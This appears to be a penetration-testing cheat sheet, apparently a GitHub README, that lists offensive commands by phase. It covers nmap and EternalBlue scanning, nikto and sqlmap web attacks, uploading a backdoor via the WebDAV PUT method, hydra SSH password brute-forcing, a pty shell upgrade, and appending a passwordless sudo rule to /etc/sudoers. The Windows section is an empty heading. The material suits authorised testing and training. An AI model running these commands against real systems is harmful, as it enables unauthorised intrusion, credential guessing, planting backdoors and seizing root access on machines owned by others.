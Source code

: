 ## ENUMERATION

### Find all open ports
```
nmap -sV -Pn -p- -T4 -A <IP>
nmap -Pn -sT -sV -A --script=default,banner -p- <IP>
nmap -n -A -sU -T4 <IP>
```
### Vulnerability Scan
#### eternalblue scan
```
nmap -p445 --script smb-vuln-ms17-010 <IP-range>
```

### linux enumeration 
```
enum4linux <IP>
```

## WEB PENTEST

### enumerate port 80
```
nikto -host http://<IP>
```

### sqlmap with request file
```
sqlmap -r search-test.txt -p param
```
### If PUT method is enabled
```
davtest -move -sendbd auto -url http://$ip
cadaver <IP>
cad> PUT met.asp met.asp
```

## ENCRYPTIONS AND DECRYPTIONS

### Password bruteforce using hydra
```
hydra -l bob -p password ssh://10.10.10.1 -t 4
hydra -L user.txt -P pass.txt ssh://10.10.10.1 -t 4
```

### Online md5 cracker
```
https://www.md5online.org/md5-decrypt.html
```

## LINUX PRIVILAGE ESCALATION

### upgraded it to a pseudo-terminal using python
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

### First do some privilage checking
```
http://www.securitysift.com/download/linuxprivchecker.py
```

### if you can edit sudoers file, just add this line
```
echo 'bob ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers
```

## WINDOWS PRIVILAGE ESCALATION

